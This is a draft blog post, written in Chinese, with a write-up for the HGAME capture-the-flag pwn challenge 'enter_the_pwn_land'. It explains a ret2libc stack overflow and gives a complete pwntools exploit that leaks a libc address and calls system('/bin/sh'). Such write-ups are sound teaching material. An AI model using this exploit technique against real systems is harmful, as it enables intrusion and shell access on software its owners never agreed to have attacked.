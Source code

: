 ---
title: "HGAME wp"
date: 2022-01-25T16:50:02+08:00
draft: true
---

[[hgame.vidar.club][HGAME]]


* enter_the_pwn_land
ret2libc，但是有些小坑。循环控制变量i在字符串后面，溢出的字符会覆盖掉i。写入的第一个字节x覆盖了i后会剩下的内容会从 =s+x= 开始往后继续写入，因此需要控制写入i的内容到指定偏移。剩下的就是标准的ret2libc了。puts出puts的got拿到libcbase偏移，再构造system("/bin/sh")。注意system需要栈对齐，在前面试着加几个ret的gadget对齐栈就行。
#+begin_src python
from pwn import *
context.arch="amd64"
context.terminal = ['tmux', 'splitw', '-h', '-F', '-P']
io = process("./a.out")
# io = remote("chuj.top", "33705")
# io = gdb.debug("./a.out")
elf = ELF("./a.out")
libc = ELF("/home/ubuntu/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc.so.6")
libc = ELF("./libc-2.31.so")
# gdb.attach(io)
io.sendline("0"*0x34+p64(0x401313)+p64(elf.got['puts'])+p64(elf.symbols['puts'])+p64(elf.symbols['main']))
io.recvline()
putsaddr = u64(io.recvline()[:-1].ljust(8, '\0'))
libcbase = putsaddr - libc.symbols['puts']
print(hex(putsaddr))
binsh = libcbase + libc.search("/bin/sh").next()
systemaddr = libcbase + libc.symbols['system']
io.sendline("0"*0x34+p64(0x40101a)+p64(0x40101a)+p64(0x40101a)+p64(0x401313)+p64(binsh)+p64(systemaddr))
io.interactive()
#+end_src
